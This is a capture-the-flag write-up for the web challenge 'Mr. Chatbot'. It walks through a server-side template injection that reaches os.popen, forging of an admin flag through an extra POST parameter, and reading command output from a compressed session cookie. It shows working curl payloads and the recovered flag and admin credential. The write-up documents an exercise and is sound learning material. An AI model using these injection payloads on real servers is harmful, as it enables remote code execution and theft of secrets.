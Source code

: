 ```yaml
---
title: "Mr. Chatbot"
categories: Web Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flags: flag: CIT{18a7fbedb4f3548f}
---
```

> "What's your prompt?"
>
> The flag is in secrets.txt
>
> Note: this web challenge instance will reset every 30 minutes. If a challenge is not responsive, you might need to wait until the next half hour.
>
> http://23.179.17.40:58005/

---

Upon accessing the page, we are asked to enter a name to join the chat.

![alt text](image.png)

After submitting a name, we are redirected to a `home` page. A quick look at the JavaScript `home.html` shows:

![alt text](image-1.png)

The `userName` variable is directly inserted into the page, suggesting a possible **SSTI** (Server-Side Template Injection).
However, testing common **SSTI** payloads failed because characters like `{}`, `<`, and `>` were filtered.

After some testing, I checked the cookies and try to decode them. The cookie `session` contained a `Base64` string:

```
eyJhZG1pbiI6IjAiLCJuYW1lIjoienR6In0.aA7zxg.zAnEcRAO3VHXg3UMqxY7BigC5jE
```

Decoding the first part (`Base64`) reveals:

```json
{"admin":"0","name":"ztz"}
```

Because when joining the chat, we will request to http://23.179.17.40:58005/ `POST` request with the `name` parameter. This suggested that the server stores the `name` and `admin` parameters in the cookie. Since the `POST` request accepts a `name`, I attempted to submit additional parameters.

**The idea**: forcefully set `admin=1` and inject a server-side payload.

```pwsh
curl -X POST -d "name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('sleep 10').read() }}&admin=1" http://23.179.17.40:58005/ -i
```

The server delayed its response by 10 seconds, confirming server-side code execution!

At this point, I attempted to directly read `secrets.txt`:

```pwsh
curl -X POST -d "name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat secrets.txt').read() }}&admin=1" http://23.179.17.40:58005/ -i
```

The request succeeded, but the problem was:
Where can we see the output of `cat secrets.txt`?
When using the cookie, nothing visible appeared in the home chat.

After some experiments (including trying a reverse shell), I noticed that the cookie size changed depending on the command output.
This hinted that the command results were being hidden inside the cookie.

I decoded the cookie using CyberChef (**Base64** Decode (`A-Za-z0-9-_`) -> Zlib Inflate) and found an interesting field named uid, containing **another base64-encoded string**.

Example of the response after inflating:

```json
{"admin":"1","name":" self.__init__.__globals__.__builtins__.__import__('os').popen('cat secrets.txt').read() ","uid":"YWRtaW46OWYzSUMzdWo5XnpaCgpDSVR7MThhN2ZiZWRiNGYzNTQ4Zn1iJiMzOTtceGRhXHg4YVx4YjVceGY0XHg5MDtIXHhjMmVceGQ3XHhmOVx4YWJeY1x4ODVceGIwXHhkN1x4ZGVceDllRVx4OWZceDhkdFx4ODRceGNiX3tuXHhmMVIyXHgxOSYjMzk7"}
```

Decoding the `uid` field gives:

```
admin:9f3IC3uj9^zZ

CIT{18a7fbedb4f3548f}b&#39;\xda\x8a\xb5\xf4\x90;H\xc2e\xd7\xf9\xab^c\x85\xb0\xd7\xde\x9eE\x9f\x8dt\x84\xcb_{n\xf1R2\x19&#39;
```
